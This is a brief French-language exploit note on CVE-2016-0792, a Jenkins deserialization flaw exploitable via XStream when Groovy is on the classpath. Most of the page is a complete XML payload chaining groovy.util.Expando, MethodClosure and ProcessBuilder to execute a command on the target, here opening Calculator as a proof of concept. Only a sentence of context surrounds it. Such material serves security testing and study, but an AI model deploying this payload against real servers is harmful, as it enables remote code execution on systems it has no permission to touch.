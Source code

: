 ```yaml
---
description: Unserialisation
---
```


# CVE-2016-0792 Jenkins

Cet Exploit Marche dans le cas ou Groovy est présent dans le classpath et que le code est parsé par Xstream. Cette Technique reste spécifique a la JVM.



### Exploitation

Dans le cas présent l'app calculator va s'ouvrir.

<pre class="language-groovy"><code class="lang-groovy"><strong>&#x3C;map>
</strong>  &#x3C;entry>
    &#x3C;groovy.util.Expando>
      &#x3C;expandoProperties>
        &#x3C;entry>
          &#x3C;string>hashCode&#x3C;/string>
          &#x3C;org.codehaus.groovy.runtime.MethodClosure>
            &#x3C;delegate class="groovy.util.Expando" reference="../../../.."/>
            &#x3C;owner class="java.lang.ProcessBuilder">
              &#x3C;command>
                &#x3C;string>open&#x3C;/string>
                &#x3C;string>/Applications/Calculator.app&#x3C;/string>
              &#x3C;/command>
              &#x3C;redirectErrorStream>false&#x3C;/redirectErrorStream>
            &#x3C;/owner>
            &#x3C;resolveStrategy>0&#x3C;/resolveStrategy>
            &#x3C;directive>0&#x3C;/directive>
            &#x3C;parameterTypes/>
            &#x3C;maximumNumberOfParameters>0&#x3C;/maximumNumberOfParameters>
            &#x3C;method>start&#x3C;/method>
          &#x3C;/org.codehaus.groovy.runtime.MethodClosure>
        &#x3C;/entry>
      &#x3C;/expandoProperties>
    &#x3C;/groovy.util.Expando>
    &#x3C;int>1&#x3C;/int>
  &#x3C;/entry>
&#x3C;/map>
</code></pre>
